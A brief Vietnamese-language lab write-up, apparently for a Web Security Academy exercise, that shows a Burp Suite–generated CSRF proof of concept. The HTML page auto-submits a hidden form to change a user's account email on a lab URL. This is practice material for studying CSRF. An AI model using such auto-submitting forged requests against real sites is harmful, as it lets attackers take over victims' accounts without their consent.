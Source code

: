 
- XOá hẳn csrf

![image-20250602102249186](./image/image-20250602102249186.png) 

- gen csrf poc sử dụng burpsuite

```html
<html>
  <!-- CSRF PoC - generated by Burp Suite Professional -->
  <body>
    <form action="https://0afe00de03a17bee805f2bc0001500a7.web-security-academy.net/my-account/change-email" method="POST">
      <input type="hidden" name="email" value="thao&#46;khong&#64;lq&#46;co" />
      <input type="submit" value="Submit request" />
    </form>
    <script>
      history.pushState('', '', '/');
      document.forms[0].submit();
    </script>
  </body>
</html>

```
